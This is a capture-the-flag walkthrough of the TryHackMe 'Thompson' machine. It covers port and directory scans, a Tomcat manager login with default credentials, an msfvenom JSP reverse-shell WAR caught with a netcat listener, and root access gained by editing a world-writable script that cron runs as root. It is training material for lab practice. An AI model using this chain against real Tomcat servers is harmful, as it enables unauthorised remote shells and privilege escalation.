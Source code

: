 ```yaml
---
layout: post
title: Thompson
thumbnail-img: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
cover-img: /assets/img/tomcat.png
categories: THM
---
```

Boot2root machine for FIT and bsides guatemala CTF

Deploy the machine and wait a couple of minutes before starting...

## Reconnaissance

Start off with scanning the machine. 

What ports are open?

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 02:49 EST
Nmap scan report for 10.10.169.55
Host is up (0.080s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
```

Looks like there is at least one web based port and the SSH port.

## Directory discovery

Choose a tool and launch the preferred directory discovery tool along with a wordlist, let's find out if there is anything hiding in there!

```
gobuster dir -u http://<ip-address>:<port>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.169.55:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/10 03:05:52 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Looks like access to `/manager` is restricted. Exploring around the website, directed me to a `401 Unauthorized` site when checking the server status. Interestingly enough, there are some default credentials given. Test those out!

![](../assets/img/tomcat.png)

## Compromise the machine

Near the bottom of the page, `war` files can be uploaded, so a custom payload will have to be made with `msfvenom`!

Notice that it will have to be a `java` reverse shell (the other open port is the one hinting that).

Especifically, the payload will have to be in `war` format, so get that cheatsheet to find it.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip-address> LPORT=4444 -f war > shell.war
Payload size: 1105 bytes
Final size of war file: 1105 bytes
```

Upload the payload but don't deploy it yet! Start the Netcat listener on your local machine and THEN deploy the `shell.war` created with `msfvenom` by going to the new path shown on the list of applications.

```
nc -lnvp 4444                                                                        
listening on [any] 4444 ...
connect to [ip-address] from (UNKNOWN) [10.10.169.55] 42940
whoami
tomcat
pwd
/
```
Fantastic! Now let's look around, see if we can find that first flag.

Hint: The `user.txt` flag is usually in the home directory of the non-root user.

```
ls -la home/jack
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Feb 10 00:40 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

Aside from the `user.txt` file, there is a shell script.

```
cat home/jack/id.sh
#!/bin/bash
id > test.txt

cat home/jack/test.txt
uid=0(root) gid=0(root) groups=0(root)
```
It appears it was last run by root! That is great news, maybe it is a script included in crontab...

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
``` 

This is great news! Lets edit the shell script to read the `root.txt` file.

```
echo "#!/bin/bash^[\n cat /root/root.txt > test.txt" > id.sh

cat id.sh
#!/bin/bash
cat /root/root.txt > test.txt
```

Now all we have to do is wait before reading the `test.txt` file.

```
cat test.txt
d89d5391984c0450a95497153ae7ca3a
```

Machine rooted!
